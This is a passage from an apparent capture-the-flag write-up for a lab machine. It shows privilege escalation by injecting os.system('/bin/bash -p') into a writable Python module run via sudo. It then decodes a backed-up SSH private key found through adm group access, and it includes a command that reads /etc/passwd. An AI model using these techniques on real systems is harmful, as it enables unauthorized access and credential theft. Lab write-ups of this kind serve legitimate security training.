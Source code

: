 The script reads a command from the command line, then sends it to `get_command` and execute it if it's one of the three allowed commands. 

The interesting part is `get_command`, it's imported from cmd.py which is in the same folder as the script. 

```bash
mat@watcher:~$ ls -la scripts/cmd.py 
-rw-r--r-- 1 mat mat 133 Dec  3 03:31 scripts/cmd.py
mat@watcher:~$ cat scripts/cmd.py
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```

We can write to this file. So we can modify it to start a new bash shell as Will. We need to add an import of os. Then add the following at the beginning of the `get_command` function.

```python
os.system('/bin/bash -p')
```

After that, we can run the python script as will and get a shell. 

```bash
mat@watcher:~$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
will@watcher:~$ whoami
will
will@watcher:~$ ls -l /home/will/
total 4
-rw------- 1 will will 41 Dec  3 01:58 flag_6.txt
```

We have flag 6. 

## Escalate to root
For this step, there are no note.txt file to give us a hint. Running `sudo -l` requires a password, so no luck there either.

I checked for the groups of the user, and they are part of the adm group. That looked interesting. 

I searched for files that belongs to that group. And found a backups folder with one file in it: key.b64. 

I decoded the file, and it contained a ssh private key. 

```bash
cat /opt/backups/key.b64 | base64 -d
-----BEGIN RSA PRIVATE KEY-----
...
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRsM1bOEqjFdZgv6SA==
-----END RSA PRIVATE KEY-----

```
